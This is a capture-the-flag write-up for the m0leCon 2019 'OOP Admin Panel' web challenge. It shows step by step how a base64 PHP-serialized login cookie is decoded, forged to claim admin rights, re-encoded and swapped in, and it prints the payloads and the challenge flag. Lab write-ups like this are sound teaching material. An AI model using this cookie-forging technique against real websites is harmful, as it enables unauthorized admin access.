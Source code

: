 # m0leCon CTF 2019 – OOP Admin Panel

* **Category:** web
* **Points:** 54

## Challenge

> This is my first website, can you prove it to be secure?
>
> Author: @andreossido
>
> http://10.255.0.1:8010/

## Solution

Connecting to the website you can see the following message.

```
Welcome

I'm admin of this site.
This is my first website... I think it's enough secure, but I didn't study sql yet.
Can you test it for me?
In private page there is a surprise for you!
```

Registering a user and analyzing the cookies will let you to discever the `login` cookie with a base64 content.

```
Tzo0OiJVc2VyIjozOntzOjI6ImlkIjtpOjI7czo4OiJ1c2VybmFtZSI7czo1OiJhYWFhYSI7czo1OiJhZG1pbiI7YjowO30=
```

Decoding it will give you the following PHP serialized class.

```
O:4:"User":3:{s:2:"id";i:2;s:8:"username";s:5:"aaaaa";s:5:"admin";b:0;}
```

You can craft the following malicious serialized class to escalate privileges.

```
O:4:"User":3:{s:2:"id";i:1;s:8:"username";s:5:"admin";s:5:"admin";b:1;}
```

Then encode it in base64.

```
Tzo0OiJVc2VyIjozOntzOjI6ImlkIjtpOjE7czo4OiJ1c2VybmFtZSI7czo1OiJhZG1pbiI7czo1OiJhZG1pbiI7YjoxO30
```

Changing the cookie with the encoded malicious payload and visiting the private section will give you the flag.

```
ptm{Cl455_S3r14l1z4t10n_15_B34ut1ful}
```